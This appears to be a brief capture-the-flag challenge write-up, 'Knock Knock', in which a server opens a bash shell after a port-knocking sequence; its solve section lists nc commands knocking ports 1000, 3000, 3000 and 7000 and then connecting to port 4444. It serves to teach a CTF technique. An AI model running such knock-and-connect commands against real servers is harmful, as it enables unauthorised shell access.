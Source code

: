 # Knock Knock

This server appears to respond to some kind of entrance code...

Competitors must port knock to get a bash shell to open

> Competitors are given "config.ini"

## Solve
```bash
TARGET=1000
for p in 1000 3000 3000 7000; do nc -vz <target> $p; done
nc <target> 4444 # Open the shell
```
